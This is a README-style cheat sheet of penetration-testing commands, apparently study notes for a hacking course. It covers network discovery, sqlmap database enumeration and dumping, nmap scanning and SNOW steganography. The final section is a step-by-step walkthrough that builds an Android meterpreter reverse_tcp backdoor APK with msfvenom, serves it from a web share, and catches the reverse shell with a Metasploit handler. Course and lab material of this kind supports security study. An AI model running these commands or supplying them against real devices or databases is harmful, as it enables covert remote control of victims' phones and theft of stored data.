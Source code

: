 ## Commands

# Netdiscover
netdiscover -r ip

Ex: netdiscover -r 192.168.1.0/24

In windows:

arp -g

# Sqlmap
1. sqlmap --url 'vulnerable_url"
2. sqlmap --url <url> --databases
3. sqlmap --url <url> --tables
4. sqlmap --url <url> -T <table_name> --columns
5. sqlmap --url <url> --dump -D <database_name> -T <table_name>

# Nmap
1. nmap -sV -O -sC -T4 <ip_addr>
2. nmap -A -T4 <ip_addr>

# Snow

## Options Available in SNOW
-C Compress the data if concealing, or uncompress it while extracting.

-Q Quiet mode, If not set means the application will report statistics such as compression percentage and amount of storage available.

-S Report on the approximate amount of space available for a hidden message in the text file. Line length is taken into account, but other options are ignored.

-p For setting the password for concealment of data and while extracting the data.

-l line-len When appending whitespace, snow will always produce lines shorter than this value. By default, it is set to 80.

-f Content of the file will get concealed in the input file.

-m Message String The content written in this flag will be concealed into the input file.

Example
1. Open the uncompressed file.
2. Run the SNOW.exe file.
3. Open CMD and reach the file that you want to hide the message within.
4. Write the command like below for concealing the message into a text file:

**SNOW.EXE -C -p 1234 -m "hidden message" input.txt output.txt**

SNOW.EXE It tells the CMD window that we are using the snow tool for steganography.

-C It is for compressing the data if concealing, or uncompressing it while extracting.

-p It is for a password for concealing and extracting.

input.txt The file in which you want to conceal the message within.

output.txt The file in which you want the output.

# Hack an Android Device by Creating Binary Payloads using Parrot Security

Parrot OS:
1. We can achieve this using metaspolit
2. First start the postgresql server
    1. Command: service postgresql start
3. create a payload 
   1. Command: msfvenom -p android/meterpreter/reverse_tcp --platform android -a dalvik LHOST=IP.ADDR R > Desktop/Backdoor.apk
4. We are sharing the backdoor.apk using share folder
    #### Commands:
     1. mkdir /var/www/html/share
     2. chmod -R 755 /var/www/html/share
     3. chown -R www-data:www-data /var/www/html/share
5. Start the apache2
     1. Cmd: service apache2 start
6. Copy the backdoor.apk file to share folder
     1. cp /.../.../backdoor.apk /var/www/html/share

7. Launch the metaspolit using command msfconsole
8. Use the module exploit/multi/handler  (use exploit/multi/handler)
9. Set the payload and LHOST
     1. set payload android/meterpreter/reverse_tcp 
	   2. set LHOST ip_addr (// The LHOST is the IP address of the attacking computer )
	   3. show options (// we can see what are the options set)
10. Run the exploit
    1. exploit -j -z (// the command runs the exploit as background job)
